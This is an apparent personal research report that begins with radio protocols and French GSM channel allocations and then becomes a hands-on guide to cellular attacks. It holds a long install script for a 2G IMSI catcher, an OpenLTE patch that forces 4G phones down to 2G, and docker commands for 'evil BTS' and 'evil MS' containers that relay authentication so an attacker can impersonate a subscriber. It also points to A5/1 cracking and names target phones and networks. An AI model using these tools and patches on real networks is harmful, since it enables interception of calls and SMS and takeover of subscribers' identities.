 
----

title: "Works"
author: "Bastien Baranoff"
header-includes:


* \usepackage{fancyhdr}
* \pagestyle{fancy}
* \fancyfoot[CO,CE]{RadioFrequencies Protocols vs Energy}
  output:
  pdf_document:
    toc: true
    df_print: kable
  word_document: default
  date: "\ ``r Sys.Date()``\ "
  bibliography: Mon_super_rapport.bib

----

```{r setup, include=FALSE, echo=FALSE, warning=FALSE}
library(pander)
library(knitr)
library(memisc)
library(stargazer)
knitr::opts_chunk$set(echo = TRUE)

.. code-block::




   \newpage

   **Radio-Frequencies Protocols :**
   ---------------------------------

   A protocol is for computing (quoted from Oxford langage):
   "A set of rules governing the exchange or transmission of data between devices."
   <https://www.oed.com/>.

   The goal like it is said is to make travel information from A->B, and (maybe) then B->A etcaetera. This information has a weight and it has to move so : energy is spent, at least F(A->B).
   Another goals came obviously from the first depending on the case of use : spending the less energy possible, have the maximum range, transmit the most data possible, have the best yield, and be the most secure possible (I mean by that, that it can't be understood by a machine or an human on an undesired endpoint in a reasonable time at least at the time of conception and from the projected advances in technology), there are also another important points the latency, and the errors between the message sent and received.  

   We will begin by enumerate some radio protocols, begin by saying their purpose. Then we gonna try to classify theses protocols by energy, data (raw and useful payload), power, range, frequencies and yield, security, latency, and error.

   --------------------------------------
   **List (non-exhaustive) of Protocols**
   --------------------------------------


   ```{r, echo=FALSE}
   library("readxl")
   proto<-read_excel("protocols_glossary.xlsx",1)
   head(proto,22)

\newpage

----

**Radio-Telephony**
-----------------------

----

**Example of SFR:**
-----------------------

**Article 1**

– The French Radiotelephone Company ("Société  Française de Radiotéléphonie") is authorized to use, in the
900 and 1800 MHz bands, the frequencies allocated to it in Article 2 of this decision to establish and operate a radio network open to the public in metropolitan France. For this, it complies with the provisions of the specifications located in appendix 2 of this decision.

**Article 2**

– The GSM channels allocated to the French Radiotelephone Company are, in accordance with the definitions in appendix 1:


* 
  in the 900 MHz band, throughout mainland France: channels 75 to 124;

* 
  in the 900 MHz band, only in very dense areas: channels 63 to 74;

* 
  in the 1800 MHz band, throughout mainland France: channels 512 to 525
  and 647 to 751

For others Operator (GSM)

```{r, echo=FALSE}
library("readxl")
mydata<-read_excel("mytab.xlsx",1)
head(mydata)

.. code-block::

   Free = ? (Free didn't invest much in 2G antenna since 2G will die in 2025 in France the use Orange roaming )

   ---------------
   **2G Attack :**
   ---------------



   An active 2G active should look like this :


   ![diagram](thesis.png)
   ![2G Attack Active](diagram_2G_act.png)

   Ths is the flow of a 2G active attack


   ## Hacking 2G (Fooling MS : Mobile Station, the 2G phone)
   The MS doesn't ask authentication from BTS (Base Transceiver Station, the relay antenna). So what to do to intercept ? Be a BTS... and that's all just spoof the public values of the BTS (mcc,mnc exemple 208,15 for FreeMobile 208,01 for Orange, etc) and broadcast a stronger signal and it is done. How the implement a 2G BTS ? there are open sourced implementation on github. 
   https://github.com/osmocom (OpenBSC Osmo-Trx Osmo-Bts... EOL but usefull) or (Network in the Box Updated)
   https://github.com/RangeNetworks/openbts
   https://github.com/vir/yate

   To install it I have scripted it for example for OpenBSC :
   ```bash
   #!/bin/bash
   read -p "Architecture ? amd64, armel, arm64 ?" ARCH
   apt-key adv --recv-keys --keyserver keyserver.ubuntu.com 3B4FE6ACC0B21F32 40976EAF437D05B5
   cp /etc/apt/trusted.gpg /etc/apt/trusted.gpg.d
   apt install gcc-9 g++-9 gcc-10 g++-10 git -y
   echo "deb [arch=$ARCH] http://fr.archive.ubuntu.com/ubuntu/ xenial main restricted universe multiverse" >> /etc/apt/sources.list
   apt update
   apt install gcc-4.9 g++-4.9 gcc-7 g++-7 -y
   sed -i '$ d' /etc/apt/sources.list
   apt update
   apt install -y build-essential libusb-1.0-0-dev libsqlite3-dev libsctp-dev libgmp-dev libx11-6 libx11-dev flex libncurses5 libdbd-sqlite3 libdbi-dev libncurses5-dev libncursesw5 libpcsclite-dev zlib1g-dev libmpfr4 libmpc3 lemon aptitude libtinfo-dev libtool shtool autoconf git-core pkg-config make libmpfr-dev libmpc-dev libtalloc-dev libfftw3-dev libgnutls28-dev libtool-bin libxml2-dev sofia-sip-bin libsofia-sip-ua-dev sofia-sip-bin libncursesw5-dev bison libgmp3-dev alsa-oss
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-4.9 49 --slave /usr/bin/g++ g++ /usr/bin/g++-4.9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-7 70 --slave /usr/bin/g++ g++ /usr/bin/g++-7
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   echo "deb [arch=$ARCH] http://fr.archive.ubuntu.com/ubuntu/ bionic main restricted universe multiverse" >> /etc/apt/sources.list
   apt update
   apt install -y gcc-5 g++-5 libssl1.0-dev
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-5 50 --slave /usr/bin/g++ g++ /usr/bin/g++-5
   sed -i '$ d' /etc/apt/sources.list
   apt update
   update-alternatives --set gcc /usr/bin/gcc-4.9
   exit
   apt remove texinfo
   mkdir -p /opt/IMSI_Catcher
   cd /opt/IMSI_Catcher
   wget http://ftp.gnu.org/gnu/texinfo/texinfo-4.13.tar.gz
   tar xvf texinfo-4.13.tar.gz
   cd texinfo-4.13
   ./configure
   make
   make install
   #git clone https://github.com/bbaranoff/gnu-arm-installer.git gnuarm
   #cd gnuarm
   ##Run the Scripts
   #bash gnu-arm-installer.sh
   #export PATH=$PATH:/root/gnuarm/install/bin
   # Now you have cross-compiler ready you can build osmocom with your firmware
   update-alternatives --set gcc /usr/bin/gcc-9
   cd /opt/IMSI_Catcher
   git clone git://git.osmocom.org/libosmocore.git
   cd libosmocore
   git checkout 1.3.0
   autoreconf -i
   ./configure
   make
   make install
   ldconfig
   cd /opt/IMSI_Catcher
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   autoreconf -i
   ./configure
   make
   make install
   cd /opt/IMSI_Catcher
   update-alternatives --set gcc /usr/bin/gcc-5
   git clone https://github.com/osmocom/osmocom-bb trx
   cd trx
   git checkout jolly/testing
   cd src
   wget https://github.com/bbaranoff/telco_install_sh/raw/main/trx.highram.bin
   sed -i -e  's/#CFLAGS += -DCONFIG_TX_ENABLE/CFLAGS += -DCONFIG_TX_ENABLE/g' target/firmware/Makefile
   make HOST_layer23_CONFARGS=--enable-transceiver nofirmware
   cd /opt/IMSI_Catcher
   update-alternatives --set gcc /usr/bin/gcc-9
   apt install -y libortp-dev
   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/libosmo-abis
   cd /opt/IMSI_Catcher/libosmo-abis
   git checkout 0.8.1
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/libosmo-netif
   cd /opt/IMSI_Catcher/libosmo-netif
   git checkout 0.7.0
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig

   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/openbsc
   cd /opt/IMSI_Catcher/openbsc/openbsc
   autoreconf -fi && ./configure --with-lms && make -j4 && make install && ldconfig

   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/osmo-bts
   cd /opt/IMSI_Catcher/osmo-bts
   git checkout 0.8.1
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   cd /opt/IMSI_catcher
   wget https://github.com/bbaranoff/telco_install_sh/raw/main/opencore-amr-0.1.5.tar.gz
   tar xvzf opencore-amr-0.1.5.tar.gz
   cd opencore-amr-0.1.5
   ./configure
   make -j$(nproc)
   make install
   ldconfig
   cd /lib/modules/$(uname -r)/build/certs
   openssl req -new -x509 -newkey rsa:2048 -keyout signing_key.pem -outform DER -out signing_key.x509 -nodes -subj "/CN=Owner/"
   cd /opt/IMSI_Catcher/
   git clone https://github.com/isdn4linux/mISDN
   cd /opt/IMSI_Catcher/mISDN
   rm -Rf /lib/modules/$(uname -r)/kernel/drivers/isdn/hardware/mISDN
   rm -Rf /lib/modules/$(uname -r)/kernel/drivers/isdn/mISDN/
   wget https://raw.githubusercontent.com/bbaranoff/PImpMyPi/main/octvqe.patch
   cp /boot/System.map-$(uname -r) /usr/src/linux-headers-$(uname -r)/System.map
   ln -s /lib/modules/$(uname -r)/build /lib/modules/$(uname -r)/source
   aclocal && automake --add-missing
   ./configure
   patch -p0 < octvqe.patch
   make modules
   cp /opt/IMSI_Catcher/mISDN/standalone/drivers/isdn/mISDN/modules.order /usr/src/linux-headers-$(uname -r)
   cp -rn /usr/lib/modules/$(uname -r)/. /usr/src/linux-headers-$(uname -r)
   make modules_install
   depmod -a

   update-alternatives --set gcc /usr/bin/gcc-7

   cd /opt/IMSI_Catcher
   apt install bison flex -y
   git clone https://github.com/isdn4linux/mISDNuser
   cd /opt/IMSI_Catcher/mISDNuser
   make
   ./configure
   make
   make install
   ldconfig
   cd example
   ./configure
   make
   make install
   ldconfig

   update-alternatives --set gcc /usr/bin/gcc-9
   cd /opt/IMSI_Catcher
   #Asterisk version (11.25.3) :
   wget http://downloads.asterisk.org/pub/telephony/asterisk/releases/asterisk-11.25.3.tar.gz
   tar zxvf asterisk-11.25.3.tar.gz
   cd /opt/IMSI_Catcher/asterisk-11.25.3
   apt install libncurses-dev libxml2-dev
   wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/tcptls.patch
   patch -p1 < tcptls.patch
   ./configure
   make -j$(nproc)
   make install
   make samples
   make config
   ldconfig
   update-alternatives --set gcc /usr/bin/gcc-5
   cd /opt/IMSI_Catcher
   git clone https://github.com/fairwaves/lcr
   cd lcr
   wget https://raw.githubusercontent.com/bbaranoff/PImpMyPi/main/ast_lcr.patch
   patch -p0 < ast_lcr.patch
   autoreconf -i
   ./configure --with-sip --with-gsm-bs --with-gsm-ms --with-asterisk
   make
   make install
   ldconfig
   cp chan_lcr.so /usr/lib/asterisk/modules/
   apt-get install alsa-oss
   modprobe snd-pcm
   modprobe snd-mixer-oss
   modprobe mISDN_core
   modprobe mISDN_dsp
   rm -rf /usr/local/etc/lcr
   mkdir -p /usr/local/etc/
   git clone https://github.com/bbaranoff/lcr_conf /usr/local/etc/lcr/
   sudo chmod 755 /usr/local/etc/lcr
   sudo chmod 644 /usr/local/etc/lcr/*
   cd /etc/asterisk
   mv sip.conf sip.conf.bak
   mv extensions.conf extensions.conf.bak
   wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/sip.conf
   wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/extensions.conf
   mkdir /root/nitb
   cd /root/nitb
   wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/openbsc.cfg
   wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/nitb.sh
   chmod +x nitb.sh

In https://github.com/bbaranoff/telco_install_sh

Follow the ReadMe and all should be OK.

`IMSI-Catcher 2G <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

Now we have hacked 2G outgoing calls what to do ?

I let as a reader research Yate, OpenBTS, Network In the Box ;)

Now we have hacked 2G outgoing calls what to do ?

Hacking 4G !
------------


.. image:: diagram1_2G_act2.png
   :target: diagram1_2G_act2.png
   :alt: 4G Attack Active

\newpage

.. image:: diagram1_2G_act3.png
   :target: diagram1_2G_act3.png
   :alt: 4G Attack Active


What is the way ? Now the eNodeB (evolved Node BTS the 4G BTS) must authenticate with the phone... What to do then ? Fallback into 2G !
The phone before authenticate send a tracking area update request and the eNodeB respond it with a TAU accept what we will do then ? Reject It ! Say that only 2G is available in the area ;)

.. code-block:: patch

   --- openlte_v00-20-05/liblte/src/liblte_rrc.cc  2016-10-09 22:17:50.000000000 +0200
   +++ openlte_v00-20-05/liblte/src/liblte_rrc.cc  2022-01-25 17:14:32.613323868 +0100
   @@ -11698,13 +11698,28 @@
            liblte_value_2_bits(0, &msg_ptr, 2);

            // Optional indicators
   -        liblte_value_2_bits(0, &msg_ptr, 1);
   +        liblte_value_2_bits(1, &msg_ptr, 1);
            liblte_value_2_bits(0, &msg_ptr, 1);
            liblte_value_2_bits(0, &msg_ptr, 1);

            // Release cause
            liblte_value_2_bits(con_release->release_cause, &msg_ptr, 2);

   +// redirectedcarrierinfo
   +// geran // choice
   +liblte_value_2_bits(1, &msg_ptr, 4);
   +// arfcn no.
   +liblte_value_2_bits(514, &msg_ptr, 10);
   +// dcs1800
   +liblte_value_2_bits(0, &msg_ptr, 1);
   +// Choice of following ARFCN
   +liblte_value_2_bits(0, &msg_ptr, 2);
   +// explicit list
   +liblte_value_2_bits(1, &msg_ptr, 5);
   +// arfcn no.
   +liblte_value_2_bits(514, &msg_ptr, 10);
   +// Note that total bits should be octet aligned,
   +// if not, pad it with zeros.
            // Fill in the number of bits used
            msg->N_bits = msg_ptr - msg->msg;

   --- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2017-07-29 21:58:37.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2022-01-25 16:49:13.365515919 +0100
   @@ -106,6 +106,7 @@
        // Message Parsers
        void parse_attach_complete(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_attach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
   +    void send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
        void parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_authentication_response(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_detach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   @@ -125,6 +126,8 @@
        // Message Senders
        void send_attach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_attach_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   +    void send_tracking_area_update_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   +    void send_tracking_area_update_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_authentication_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_authentication_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_detach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   --- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2017-07-29 22:03:51.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2022-01-25 16:49:13.365515919 +0100
   @@ -99,18 +99,21 @@
    typedef enum{
        LTE_FDD_ENB_MME_PROC_IDLE = 0,
        LTE_FDD_ENB_MME_PROC_ATTACH,
   +    LTE_FDD_ENB_MME_PROC_TAU_REQUEST,
        LTE_FDD_ENB_MME_PROC_SERVICE_REQUEST,
        LTE_FDD_ENB_MME_PROC_DETACH,
        LTE_FDD_ENB_MME_PROC_N_ITEMS,
    }LTE_FDD_ENB_MME_PROC_ENUM;
    static const char LTE_fdd_enb_mme_proc_text[LTE_FDD_ENB_MME_PROC_N_ITEMS][100] = {"IDLE",
                                                                                      "ATTACH",
   +                                         "TAU REQUEST",
                                                                                      "SERVICE REQUEST",
                                                                                      "DETACH"};

    typedef enum{
        LTE_FDD_ENB_MME_STATE_IDLE = 0,
        LTE_FDD_ENB_MME_STATE_ID_REQUEST_IMSI,
   +LTE_FDD_ENB_MME_STATE_TAU_REJECT,
        LTE_FDD_ENB_MME_STATE_REJECT,
        LTE_FDD_ENB_MME_STATE_AUTHENTICATE,
        LTE_FDD_ENB_MME_STATE_AUTH_REJECTED,
   @@ -126,7 +129,7 @@
    }LTE_FDD_ENB_MME_STATE_ENUM;
    static const char LTE_fdd_enb_mme_state_text[LTE_FDD_ENB_MME_STATE_N_ITEMS][100] = {"IDLE",
                                                                                        "ID REQUEST IMSI",
   -                                                                                    "REJECT",
   +                                                                       "REJECT",
                                                                                        "AUTHENTICATE",
                                                                                        "AUTH REJECTED",
                                                                                        "ENABLE SECURITY",
   --- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2017-07-29 22:15:50.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2022-01-25 17:07:55.380027792 +0100
   @@ -204,6 +204,10 @@
            case LIBLTE_MME_MSG_TYPE_ATTACH_REQUEST:
                parse_attach_request(msg, &nas_msg->user, &nas_msg->rb);
                break;
   +        case LTE_FDD_ENB_MME_PROC_TAU_REQUEST:
   +            send_tracking_area_update_request(msg, &nas_msg->user, &nas_msg->rb);
   +            break;
   +
            case LIBLTE_MME_MSG_TYPE_AUTHENTICATION_FAILURE:
                parse_authentication_failure(msg, nas_msg->user, nas_msg->rb);
                break;
   @@ -655,6 +659,16 @@
            }
        }
    }
   +void LTE_fdd_enb_mme::send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT  *msg,
   +                                           LTE_fdd_enb_user       **user,
   +                                           LTE_fdd_enb_rb         **rb)
   +{
   +    // Set the procedure
   +
   +(*rb) -> set_mme_procedure(LTE_FDD_ENB_MME_PROC_TAU_REQUEST);
   +(*rb) -> set_mme_state(LTE_FDD_ENB_MME_STATE_TAU_REJECT);}
   +
   +
    void LTE_fdd_enb_mme::parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg,
                                                       LTE_fdd_enb_user       *user,
                                                       LTE_fdd_enb_rb         *rb)
   @@ -864,7 +878,7 @@
                    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_AUTHENTICATE);
                    user->set_id(hss->get_user_id_from_imei(imei_num));
                }else{
   -                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_SECURITY_CAPABILITIES_MISMATCH);
   +                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_IDENTITY_CANNOT_BE_DERIVED_BY_THE_NETWORK);
                    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_REJECT);
                }
            }else{
   @@ -1195,6 +1209,9 @@
            user->prepare_for_deletion();
            send_attach_reject(user, rb);
            break;
   + case LTE_FDD_ENB_MME_STATE_TAU_REJECT:
   +        send_tracking_area_update_reject(user, rb);
   +break;
        case LTE_FDD_ENB_MME_STATE_AUTHENTICATE:
            send_authentication_request(user, rb);
            break;
   @@ -1397,6 +1414,52 @@
                          (LTE_FDD_ENB_MESSAGE_UNION *)&cmd_ready,
                          sizeof(LTE_FDD_ENB_RRC_CMD_READY_MSG_STRUCT));
    }
   +
   +
   +
   +
   +void LTE_fdd_enb_mme::send_tracking_area_update_reject(LTE_fdd_enb_user *user,
   +                                         LTE_fdd_enb_rb   *rb)
   +{
   +    LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT nas_msg_ready;
   +    LIBLTE_MME_TRACKING_AREA_UPDATE_REJECT_MSG_STRUCT      ta_update_rej;
   +    LIBLTE_BYTE_MSG_STRUCT                   msg;
   +     ta_update_rej.emm_cause = user->get_emm_cause();
   +     ta_update_rej.t3446_present = false;
   +     liblte_mme_pack_tracking_area_update_reject_msg(
   +     &ta_update_rej,
   +     LIBLTE_MME_SECURITY_HDR_TYPE_PLAIN_NAS,
   +     user->get_auth_vec()->k_nas_int,
   +     user->get_auth_vec()->nas_count_dl,
   +     LIBLTE_SECURITY_DIRECTION_DOWNLINK,
   +     &msg);
   +    // Queue the NAS message for RRC
   +    rb->queue_rrc_nas_msg(&msg);
   +
   +    // Signal RRC for NAS message
   +    nas_msg_ready.user = user;
   +    nas_msg_ready.rb   = rb;
   +    msgq_to_rrc->send(LTE_FDD_ENB_MESSAGE_TYPE_RRC_NAS_MSG_READY,
   +                      LTE_FDD_ENB_DEST_LAYER_RRC,
   +                      (LTE_FDD_ENB_MESSAGE_UNION *)&nas_msg_ready,
   +                      sizeof(LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT));
   +
   +    send_rrc_command(user, rb, LTE_FDD_ENB_RRC_CMD_RELEASE);
   +// Unpack the message
   +    liblte_mme_unpack_tracking_area_update_reject_msg(&msg, &ta_update_rej);
   +
   +    interface->send_ctrl_info_msg("user fully attached imsi=%s imei=%s",
   +                                  user->get_imsi_str().c_str(),
   +                                  user->get_imei_str().c_str());
   +
   +    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_ATTACHED);
   +}
   +
   +
   +
   +
   +
   +
    void LTE_fdd_enb_mme::send_attach_reject(LTE_fdd_enb_user *user,
                                             LTE_fdd_enb_rb   *rb)
    {
   @@ -1412,7 +1475,7 @@
            imsi_num = user->get_temp_id();
        }

   -    attach_rej.emm_cause           = user->get_emm_cause();
   +    attach_rej.emm_cause           = 2;
        attach_rej.esm_msg_present     = false;
        attach_rej.t3446_value_present = false;
        liblte_mme_pack_attach_reject_msg(&attach_rej, &msg);

   --- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2017-07-29 22:18:34.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2022-01-25 17:09:37.116388236 +0100
   @@ -229,7 +229,7 @@
        try
        {
            // Setup the USRP
   -        if(devs[idx-1]["type"] == "x300")
   +        if(devs[idx-1]["type"] == "soapy")
            {
                devs[idx-1]["master_clock_rate"] = "184320000";
                master_clock_set                 = true;
   @@ -252,7 +252,6 @@
                usrp->set_rx_freq((double)liblte_interface_ul_earfcn_to_frequency(ul_earfcn));
                usrp->set_tx_gain(tx_gain);
                usrp->set_rx_gain(rx_gain);
   -
                // Setup the TX and RX streams
                tx_stream  = usrp->get_tx_stream(stream_args);
                rx_stream  = usrp->get_rx_stream(stream_args);
   @@ -822,7 +821,7 @@
            buffer_size = 1024;
        }
        status = bladerf_sync_config(bladerf,
   -                                 BLADERF_MODULE_TX,
   +                                BLADERF_TX_X1,
                                     BLADERF_FORMAT_SC16_Q11_META,
                                     BLADERF_NUM_BUFFERS,
                                     buffer_size,
   @@ -842,7 +841,7 @@

        // Setup sync RX
        status = bladerf_sync_config(bladerf,
   -                                 BLADERF_MODULE_RX,
   +                                BLADERF_RX_X1,
                                     BLADERF_FORMAT_SC16_Q11_META,
                                     BLADERF_NUM_BUFFERS,
                                     buffer_size,
   @@ -974,7 +973,7 @@
        if(radio_params->init_needed)
        {
            // Assume RX_timestamp and TX_timestamp difference is 0
   -        bladerf_get_timestamp(bladerf, BLADERF_MODULE_RX, (uint64_t*)&rx_ts);
   +        bladerf_get_timestamp(bladerf, BLADERF_RX, (uint64_t*)&rx_ts);
            next_tx_ts            = rx_ts + radio_params->samp_rate; // 1 second to make sure everything is setup
            metadata_rx.flags     = 0;
            metadata_rx.timestamp = next_tx_ts - (radio_params->N_samps_per_subfr*2); // Retard RX by 2 subframes

This patch applied on the OpenLTE suite should do the trick.

`Redirection Attack <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

And it does !

Then what to do ?
We know how to be a BTS in front of a MS and force the UE (User Equipement : 4G phone) to fallback into 2G.

Hey ! We gonna pretend that we are the MS in front of the BTS !

Hacking 2G BTS
--------------


.. image:: test3.png
   :target: test3.png
   :alt: Attack Flow


The UE has become an MS again and we know how to be a BTS !

But even in the BTS does not authenticate MS does in front of the BTS. How can we bypass this ? By respecting the attack flow above ;)

I mean the secret is the key Ki stored on the SIM even with physical access you can't crack it thanks to the chip inventor ! But we can fool the authentication process :
The original process is :


* The BTS send a rand,key_sequence to the MS.
* The MS respond SRes = f(ki,rand)
* The MS cipher the communication with Kc= f(Ki,rand,key_seq)

The hacked process is :


* The genuine BTS send a rand,key_seq to the Evil MS.
* The Evil MS send it to our Evil BTS via socket between Evil BTS server and Evil MS client.
* The Evil BTS send the rand,key_seq to genuine MS
* The Genuine MS respond sres -> Evil BTS -> Evil MS -> Genuine BTS
* In the example video Kc is forwarded between Genuine MS-> Evil MS

`Impersonnate PoC <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

With french explanations ;) sorry...

`Impersonalisaion (français) <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

With english explanation (now ;)
`Impersonate (english) <https://www.youtube.com/watch?v=rSGA4oFsFrQ>`_

https://imgur.com/lUjkpGp
First of all there is a bug with brltty so

.. code-block:: bash

   apt remove brltty

on host (not on docker !)
Launch 1st

.. code-block:: bash

   sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/ms-final:hell_yeah

Launch 2nd

.. code-block:: bash

   sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/bts-final:hell_yeah

In this order cause need ip 172.17.0.2 for ms and 172.17.0.3 for bts (socket are made to work with theses addresses)

in bts

.. code-block:: bash

   tmux
   cd /
   service pcscd start
   ./evil-bts.sh

`
then in ms :

.. code-block:: bash

   tmux
   cd /
   bash trx.sh
   ctrl-b c 
   ./evil-ms.sh

set IMSI in OpenBSC (via telnet)
and in /root/.osmocom/bb/mobile.cfg
and set any ki but set one in OpenBSC
need a motorola c1** and a sim reader

What happen next ?

`Crack A5/1 <https://brmlab.cz/project/gsm/deka/attack-implementation>`_

5s to crack it before the Kc ciphered channel timeout has been gone and if it is done we have incomming SMS.

Targets android < 12, telco 2G until 2025 in France

Thank for reading !

Clients-servers architecture :
------------------------------

.. code-block::

   bsc-2rfa 172.17.0.2
